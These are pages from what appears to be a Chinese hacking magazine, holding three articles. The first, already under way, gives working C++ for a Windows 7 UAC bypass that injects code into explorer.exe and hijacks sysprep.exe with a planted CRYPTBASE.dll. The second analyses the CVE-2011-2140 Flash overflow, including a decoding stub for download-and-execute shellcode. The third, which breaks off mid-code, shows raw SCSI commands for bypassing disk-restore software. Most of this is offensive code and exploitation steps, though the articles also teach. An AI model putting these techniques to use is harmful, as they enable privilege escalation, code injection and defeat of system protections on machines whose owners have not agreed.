pstart=VirtualAllocEx(hproc,0,(SIZE_T)&RemoteEnd-(SIZE_T)&RemoteStart,MEM_COMMIT|PAGE_READWRITE,PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hproc,pstart,&RemoteStart,(SIZE_T)&RemoteEnd-(SIZE_T)&RemoteStart,&length);

// 在 Explorer.exe 中创建线程
CreateRemoteThread(hproc,0,0,(LPTHREAD_START_ROUTINE)pstart,lpparamter,0,0);
```

```cpp
static void RemoteStart(PVOID lpparamter)
{
    pinj pminj;
    HMODULE hlib;
    pminj=(pinj)lpparamter;
    hlib=0;
    hlib=pminj->myloadlibraryw(pminj->szFullDllName);
    pminj->myfreelibrary(hlib);
}
```

接下来就是在 mydll.dll 中创建 IFileOperation 对象，并且操作它复制文件了，然后运行 sysprep.exe 来加载特殊的 CRYPTBASE.dll。附件中的 mydll 工程如下：

```cpp
BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        BIND_OPTS3 bo;
        IFileOperation * ifop=0;
        IShellItem *plstsou=0;
        IShellItem *plstdes=0;
        IShellItem *plstdel=0;
        SHELLEXECUTEINFO seinfo={0};
        wchar_t szMyFull[128]={0};

        CoInitialize(NULL);
        if(S_OK==CoCreateInstance(__uuidof(FileOperation),
            0,CLSCTX_LOCAL_SERVER|CLSCTX_INPROC_SERVER|CLSCTX_INPROC_HANDLER,
            __uuidof(IFileOperation),(void**)&ifop))
        {
            // ...
        }
    }
    }
}
```

```cpp
S_OK==CoGetObject(L"Elevation:Administrator!new:{3ad05575-8857-4850-9277-11b85bdb8e09}",&bo,__uuidof(IFileOperation),(void**)&ifop)
/* 设置 IFileOperation 的 Flag ... */
FOF_NOCONFIRMATION
FOF_SILENT
FOFX_REQUIREELEVATION
if(S_OK==ifop->SetOperationFlags(...))
...
if(S_OK==ifop->PerformOperations())
{
  // 调用 ShellExecuteExW 运行 sysprep.exe
  seinfo.cbSize=sizeof(SHELLEXECUTEINFO);
  seinfo.fMask=SEE_MASK_NOCLOSEPROCESS;
  seinfo.lpFile=L"c:\\windows\\system32\\sysprep\\sysprep.exe";
  seinfo.nShow=SW_HIDE;
  if(ShellExecuteExW(&seinfo) && seinfo.hProcess)
  {
    WaitForSingleObject(seinfo.hProcess,INFINITE);
  }
  // 删除 CRYPTBASE.dll
  if(S_OK==ifop->DeleteItem(plstdel,0))
    ifop->PerformOperations();
}
...
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
  break;
```

```cpp
}
return TRUE;
}
```

这时在 CRYPTBASE.dll 中，我们就拥有管理员权限。本示例中，myCRYPTBASE.dll 启动 12.exe 的测试程序，这个测试程序试图在 system32 目录下创建 hack.txt 文件。由于 CRYPTBASE.dll 是我们自己编写的 DLL，sysprep 在加载后会弹框提示用户加载错误，所以在启动 12.exe 后，DLL_PROCESS_ATTACH 返回前调用 ExitProcess 来结束 sysprep.exe。由于 sysprep.exe 是以管理员权限运行的，而由于 Win7 的特性，所以 DLL 也是管理员权限，DLL 执行 CreateProcess 创建的子进程也是管理员权限（即 12.exe）。

下面是演示效果。由于杀软都拦截了 CreateRemoteThread 这个函数，所以在创建远程线程的时候杀软会有提示。将 myCRYPTBASE.dll 放在 E 盘的根目录下，将测试程序 12.exe 放在 C 盘的根目录下。之后运行 uacpass2.exe（确保 mydll.dll 与 uacpass2 在同一个目录下）。在 UAC 开启的情况下，直接运行 12.exe 是会提示打开失败，如图 1 所示。



图 1

现在运行 uacpass2.exe，效果如图 2 所示。



图 2

### 总结

- 1. 对 explorer 等进程的特殊照顾，否则注入 explorer 创建 IFileOperation 会弹出 UAC 提示。
- 2. 对 CRYPTBASE.dll 的疏忽，因为这个 DLL 不在 “Known DLLs” 目录中，才会让人有机可乘。
- 3. UAC 需要提权时候的检测不严格，DLL 中有跟宿主一样的权限。

当然微软做的这些都是因为减少 UAC 的提示次数，否则大家将会用对待 Vista 的态度来对待 Win7，关闭 UAC。

本文的所有代码在 VS2010 中通过编译，在 Win7（旗舰版，专业版）通过测试。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：汇编

关键词：Flash，漏洞，溢出


## CVE-2011-2140 Flash 漏洞分析

图/文 wingdbg

### 漏洞的公开信息

查询 http://www.zerodayinitiative.com/advisories/ZDI-11-276/ 得知该漏洞允许远程攻击者在装有 Adobe Flash Player 的机器上执行恶意代码。通过访问一个恶意页面或者恶意文件这种用户交互方式来进行漏洞的溢出。

漏洞存在于 Flash Player 解析流媒体的 sequenceParameterSetNALUnit 组件，由于 num_ref_frames_in_pic_order_cnt_cycle 设置了无效的数值，造成解析进程没有检查就将用户提供的数据（通过 offset_for_ref_frame）拷贝到堆栈上一段固定长度的缓冲区造成溢出。因此，攻击者可以在浏览器中通过此漏洞来执行恶意代码。



图 1 异常时堆栈窗口

### 漏洞触发原因分析

分析工具：IDA Pro 5.5 + OllyIce 1.1 英文版  
分析环境：Windows XP SP3 英文版 + IE6 + Adobe Flash Player 10 ActiveX 10.2.159.1

拿到 POC 之后，将 POC 放到一个搭建好的 Web 服务器指定目录下。用分析环境中的 IE6 访问 POC 所在的网址，比如本例中 http://xxx.com/raw.swf。产生异常，EIP 此时为 0D0D0D0D，堆栈 ESP 所指的内存区域如图 1 所示。

很显然，堆栈在触发异常时被特定的数据所覆盖，如图 2 所示，含有 0D0D0D0D 的二进制数据。通过栈回溯，我们找到最临近的调用函数。



图 2 栈回溯函数地址

在函数调用处设置断点，重启调试器加载 IE6，打开指定网页（仍是 http://xxx.com/raw.swf）。然后断在指定断点处。（注意：flash10p.ocx 基址变化，可能是 0xXXXX9675）

通过一步步的跟踪，最后定位到距离异常最近的一个 call 上，我们设置这个函数为 EvilTrigger。如图 3 所示。



在此，我们记录下函数返回地址保存的位置，如图 4 所示。稍后我们会发现，返回地址会被覆盖。



根据公开信息的提示，我们会猜测稍后在此函数中可能有内存拷贝操作会覆盖这个地址，我们在 0x0013e570 处设置内存写入断点。调试器果然断下来了。

图 5 中的注释已经很明白：每次拷贝时，通过 call 021eafed 这个函数来设置 eax，也就是拷贝的源数据。从 esp+14 地址处获取拷贝目的地址并保存到 ecx 中去，ebp 作为 counter，拷贝长度保存在 esi+4c 中，每次拷贝一个 DWORD，然后拷贝目的地址加 4。



既然将目的地址拷贝到了函数返回地址保存的位置，本例中是 0x0013e570，那么说明这个往栈拷贝数据的操作中，拷贝长度过长。也就是本例中的 [esi+4c] = 0x200。我们重启调试器，重点关注拷贝长度是如何获取的。

通过公开信息的提示，这个拷贝长度很可能是 num_ref_frames_in_pic_order_cnt_cycle 这个值。num_ref_frames_in_pic_order_cnt_cycle 在解码过程中被用来计算图像顺序值。num_ref_frames_in_pic_order_cnt_cycle 在 0 到 255 之间取值，包括边界值。0x200 显然远大于这个值，造成了函数返回地址的覆盖。在函数执行返回时，EIP 指向了拷贝的 DWORD，从而获得了执行控制权。

我们重启调试器让其加载 IE6，观察拷贝长度的来源。在调试中我们发现拷贝长度保存的地址是固定的 0x0013e114。我在其上设置内存访问断点。果然，在相关地方断下来了。

```asm
021EBA1B 8946 50        mov dword ptr [esi+50], eax
021EBA1E E8 9BF5FFFF    call 021EAFBE
021EBA23 8946 4C        mov dword ptr [esi+4C], eax
021EBA26 85C0           test eax, eax
021EBA28 76 1F          jbe short ...
```

上面红色标记的汇编指令 `call 021EAFBE` 就是设置 eax，下一句指令会将 eax 赋值给 [esi+4c]，而这个正是拷贝长度所在内存地址。我们打开 IDA，反汇编 flash10p.ocx，定位到函数 021EAFBE，通过 F5 翻译为 C 代码，如下所示：

```cpp
unsigned int __fastcall sub_1005AFBE(int a1)
{
    int v1; // edi@1
    unsigned int nESI; // esi@1
    v1 = a1;
    nESI = 0;
    while (!(unsigned __int8)sub_1005AEF4(a1) && nESI < 0x20)
    {
        ++nESI;
        a1 = v1;
    }
    return sub_1005AF23(v1, nESI) + (1 << nESI) - 1;
}
```

此函数最终设置了拷贝长度为 0x200。在拷贝过后，相关的堆栈内存状态如图 6 所示。从 0x0013E120 开始，拷贝到 0x0013e91c 结束。此时查看 0x0013e91c 处的内存状态：



函数 EvilTrigger 在返回时：

```asm
021E3D84 B0 01      mov al, 1
021E3D86 5F         pop edi
021E3D87 5E         pop esi
021E3D88 5B         pop ebx
021E3D89 C9         leave
021E3D8A C2 0800    retn 8
```

此时堆栈的状态如图 7 所示。



最终程序流程跳转到 0x0d0d0d0d 上去执行。

### 漏洞利用技术分析

本例中没有找到稳定的 IE8、IE9 利用。由于该漏洞能控制 EIP 指向，只需要通过堆喷射来设置指定地址的堆内容数据，填充 Shellcode 即可利用。但是如果开启了 DEP/ASLR，则目前没有稳定的利用。

目前堆喷射有两种模式：一种为在网页中通过 JavaScript 进行喷射，另外一种是基于 Flash 的 ActionScript 喷射。目前比较流行第二种。

### Shellcode 分析

在 0x021E3D8A 处设置断点，去除掉所有其他断点。重新启动调试器加载 IE 并打开指定网页。在断点处成功断下后单步跟踪，EIP 指向了 0d0d0d0d。由于喷射已然完成，成功跳转到 Shellcode 上执行：

```asm
0D0D3F34  EB 10          jmp short
0D0D3F36  5B             pop ebx
0D0D3F37  4B             dec ebx
0D0D3F38  33C9           xor ecx, ecx
0D0D3F3A  66:B9 9904     mov cx, 499
0D0D3F3E  80340B E2      xor byte ptr [ebx+ecx], 0E2
0D0D3F42  E2 FA          loopd short
0D0D3F44  EB 05          jmp short
0D0D3F46  E8 EBFFFFFF    call 0D0D3F36
```

上面是一段解密程序，将 0x0d0d3f34 开始的数据逐字节与 0x0E2 异或。我们查看异或后 Shellcode 尾部，发现了端倪：出于安全性的考虑，示例中已经将 exe 地址全部修改为 http://127.0.0.1/calc.exe，如图 8 所示。



以防止出现不必要的麻烦。接下来就是获取相关需要的函数，然后下载恶意 exe 到本地并执行，就不赘言分析了，有兴趣者可以自行分析。

### 小结

Flash 漏洞是近期比较流行的。单是从 2011 年 8 月 9 日一直到 2011 年 8 月 12 日，Adobe 一口气就公布了 CVE-2011-2130、CVE-2011-2134、CVE-2011-2135、CVE-2011-2136、CVE-2011-2137、CVE-2011-2138、CVE-2011-2139、CVE-2011-2140、CVE-2011-2414、CVE-2011-2415、CVE-2011-2416、CVE-2011-2417、CVE-2011-2425、CVE-2011-2424 这几个漏洞。2140 只是其中一个代表之一（详见 http://www.adobe.com/support/security/bulletins/apsb11-21.html）。

其中大多是 Flash Player 在处理流媒体时代码缺陷导致的。比如本例中是处理 avi 文件时对拷贝长度不做有效性检测导致的。足见安全性编程的重要性，相信经此一役，Adobe 公司要对 Flash Player 进行重新加固了，甚至重写代码。我们拭目以待。

前置知识：VC

关键词：磁盘还原，还原精灵，注册表

## Ring3 下穿透磁盘还原技术的揭秘


图/文 liuke_blue

在写这篇文章之前我犹豫了很久，到底要不要把这些鲜为人知的方法公开，因为一旦公开，被人掌握这些技术，那么还原软件的脆弱性则一览无遗，网吧的机子应该就可以随便地穿透。机器狗是需要加载驱动来进行穿透还原，而我介绍的这种技术不需要加载驱动便可以穿透还原。你是不是听得有点兴奋，有点热血沸腾；但是我还是要告诉你，技术是一把双刃剑，利用得好是安全软件，利用得邪恶就是木马、病毒等。作为一名黑客防线的读者，我相信都是希望立志成为一名网络安全员，为中国互联网的安全纯洁尽一份绵薄之力。题外话就不说了，下面切入正题。

记得我最早接触的还原软件是还原精灵，是台湾地区一家软件公司出品的安全软件。它最大的神奇之处就在于计算机重启之后，你对计算机磁盘的所有操作：添加、删除、修改文件、注册表的这些痕迹全部被抹得一干二净，所有的操作都随着计算机重启而“消失了”。还有一款硬件还原卡也起到相同的效果。

当时在学校的机房里，想装点自己的东西总是不行，因此我记得当时最流行的手段——过还原精灵就是破解其密码。破解密码后，重新修改还原精灵的配置，就可以使自己读/写磁盘有效。当时由于自己还不会内核驱动开发，也不知道还原软件的原理，只是觉得太不可思议了。

现在由于自己开始学习内核编程，对还原软件的原理有一定的了解。还原软件主要解决数据读/写重定向问题以及重定向读/写的效率。目前的还原软件主要有两种：单点还原、多点还原。以后有时间我再给各位分享自己这方面的学习研究结果。

自 Windows 64 位操作系统开始，微软意识到其自身内核安全的问题，加入了 PatchGuard 技术。这个技术能够防止内核模式驱动动态修改或者替换 Windows 内核的任何内容；也就是说 SSDT HOOK、inline HOOK、IAT HOOK、EAT HOOK、IDT HOOK 等，只要是修改了内核模块的任何部分，就会蓝屏。也就是 Windows 64 位操作系统在内核里封锁了 HOOK 技术（应用层下仍然可以使用）。

那不是白学习了？你先别急着愤怒，应该愤怒的是所有的安全软件公司。你想想现在几乎所有的安全软件都在内核中使用了 HOOK 技术，而且都是通过自己反汇编、底层调试等手段研究出来的，这些核心技术一声不响就被微软封杀。微软也意识到这个问题，随后提供一些监控接口，但是这又使所有安全软件的很多功能雷同了。

x86 的许多木马确实无法在 x64 的机器上运行，但是新的问题出现了：TDL4 这类病毒完全绕过你的 PatchGuard，它通过底层读/写将自己写在 MBR 里，也就是 BOOTKIT 技术。在你的 PatchGuard 还未启动时，写入 ROOTKIT 驱动，从而隐藏、保护自身等。

说了那么多，跟 Ring3 穿透还有什么关系？其实我想说的就是 TDL4 将自身写入到 MBR 里，用到的就是穿透技术。如何将自身写入磁盘所保护的位置，这就是关键。由于自身技术和环境的限制，我还不能给大家介绍 64 位下的穿透，因此这次给大家介绍的是 32 位 Windows XP 系统下的穿透技术。

这些技术来源于 MJ0011 在 XCON（国内最大的安全焦点会议）2008 的一篇文章。搞安全的没有几个人不认识 MJ0011，此人目前就职于 360，号称 360 首席技术工程师，其犀利的言论和深不可测的技术被我们小菜鸟所惊奇，特别是他时不时就爆出其他安全软件、瑞星、微点、金山甚至微软的 Exploit，并且在各大安全论坛内不停地指点和抨击。

我常常在想每个人每天只有 24 个小时，为什么他能完成这么多事，我却不行，难道不吃不喝还可以制造出大量的“影分身”。开个玩笑，从技术上来说他确实相当厉害，而其他就无需多言了。

首先介绍如何在 Ring3 下通过构造 SCSI 指令来穿透还原软件。还原软件的核心技术就是数据读/写重定向和重定向后的数据读/写效率的问题。还原软件的驱动一般是磁盘类设备过滤驱动和卷设备过滤驱动。卷设备驱动、磁盘类设备驱动、总线设备驱动，是从上至下顺序排列的设备堆栈，最底层是总线设备（也称端口驱动设备）。



图 1

这里 sndisk+0x128d 是调用线程读/写队列函数的后一条指令，而 sndisk+0x744c 是线程读/写队列函数体里面执行 IoCallDriver 函数的后一条指令。还原过滤驱动先于磁盘类设备驱动或者卷驱动对 IRP 进行处理，通过获取的 IRP 取得读/写指令、读/写数据的位置、长度、读/写数据内容等，然后通过一系列复杂的处理……理（比如：计算读/写重定向的磁盘簇位置），重新封装好刚刚处理的 IRP，然后把它通过 IoCallDriver 转发下去。不管是单点还是多点磁盘还原软件，都是用这种方式。不同的是如何计算重定向的位置，以及如何不影响读/写效率等。以后我会将自己的学习研究成果与大家一起分享。

我们观察图 1，发现因为构造的 SCSI 指令直接发送到总线设备，这就绕过了还原过滤驱动以及一些读/写函数 HOOK 的拦截，这就是穿透还原的真正原理。开始编写代码之前，必须解决两个核心问题：

- 如何得到总线设备的符号连接，因为应用程序是通过符号连接来访问驱动设备的。这里我们采取 WinObj 软件的方式，如图 2 所示，并且使用 CreateFile 函数打开设备。
- 如何封装 SCSI 指令。该指令的核心就是 CDB 命令描述块的结构，使用 DeviceIoControl 函数来发送 SCSI 指令。



图 2

其核心代码如下：

```c
ULONG GetFuncAddressFromNtdll()
{
    HMODULE hModule;
    hModule=GetModuleHandleA("ntdll.dll");
    NtOpenDirectoryObject=(NTOPENDIRECTORYOBJECT)
        GetProcAddress(hModule,"NtOpenDirectoryObject");
    if(!NtOpenDirectoryObject) return 0;

    hModule=GetModuleHandleA("ntdll.dll");
    NtQueryDirectoryObject=(NTQUERYDIRECTORYOBJECT)
        GetProcAddress(hModule,"NtQueryDirectoryObject");
    if(!NtQueryDirectoryObject) return 0;

    hModule=GetModuleHandleA("ntdll.dll");
    NtOpenSymbolicLinkObject=(NTOPENSYMBOLICLINKOBJECT)
        GetProcAddress(hModule,"NtOpenSymbolicLinkObject");
    if(!NtOpenSymbolicLinkObject) return 0;

    hModule=GetModuleHandleA("ntdll.dll");
    NtQuerySymbolicLinkObject=(NTQUERYSYMBOLICLINKOBJECT)
        GetProcAddress(hModule,"NtQuerySymbolicLinkObject");
    if(!NtQuerySymbolicLinkObject) return 0;

    return 1;
}
```

```c
ULONG QueryDROSymbolLinkName(IN PWSTR DeviceName)
{
    HANDLE OpenHandle;
    NTSTATUS status;
    ULONG result;
    result=0;
    if(!wcsstr(DeviceName,L"IDE#Disk"))
        return 0;
    else
        result=1;
    return result;
}

ULONG GetBusDeviceName()
{
    NTSTATUS status;
    UNICODE_STRING ObjectName;
    OBJECT_ATTRIBUTES oa;
    HANDLE OpenObject;
    ULONG BufferLength=0x800;
    PCHAR Buffer;
    ULONG uContext;
    ULONG uResult;
    ULONG ncount=0;
    PDIRECTORY_BASIC_INFORMATION pDirObjectInfo=NULL;
    WCHAR ObjName[0x100]={0};
    ULONG Result;
    Result=0;

    INIT_UNICODE_STRING(ObjectName,L"\\GLOBAL??");
